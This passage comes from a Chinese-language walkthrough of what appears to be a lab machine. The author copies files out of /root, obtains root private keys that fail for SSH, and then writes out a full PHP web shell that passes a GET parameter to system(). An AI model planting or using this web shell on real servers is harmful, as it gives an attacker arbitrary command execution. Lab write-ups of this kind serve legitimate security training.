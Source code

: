 啧，`patrick`中的`.ssh`文件夹中是空的，可能没有公私钥吧

查看`version_control`，不要问为什么查看这个，我是把所以文件都看了，只有这个文件的内容有帮助

这里给出了网站的根目录，不再是默认的`/var/www/html`

![](./pic-joy/27.jpg)

这里尝试复制`root`下的文件，没想到可以，这个权限很高啊

不过复制`/root`下的文件后，也没有获取到`shell`，只是能看到，并且获取到`root`的三个私钥文件，但是连接`ssh`时就是不行，可能就是配置问题，但是网上搜索的默认的配置文件，测试后都没有，放弃这条路线

也就是获取到了密码或证书，都无法通过`ssh`登录

# 反弹shell

前面获取到的网站目录可能有大用

编写一个`php`代码，文件名为`shell.php`，因为网站的脚本语言是`php`

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
